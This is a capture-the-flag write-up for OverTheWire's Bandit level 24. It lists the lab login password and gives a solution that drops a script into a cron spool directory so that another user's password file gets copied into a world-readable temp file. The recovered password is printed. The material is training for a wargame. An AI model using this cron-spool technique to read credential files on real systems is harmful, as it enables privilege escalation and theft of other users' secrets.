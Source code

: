 ## Level 24
## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
## Datos de acceso
	Server: bandit.labs.overthewire.org
	User: bandit23
	Password: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
	
## Solución
	ls /etc/cron.d
	cat /etc/cron.d/cronjob_bandit24
	cat /usr/bin/cronjob_bandit24.sh
	mkdir /tmp/elcajero
	cd /tmp/elcajero
	echo "cat /etc/bandit_pass/bandit24 > /tmp/elcajero/password" >script.sh
	chmod 777 script.sh
	touch password
	chmod 666 password
	cp script.sh /var/spool/bandit24/foo	
	cat password


	VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
## Notas adicionales

## Referencias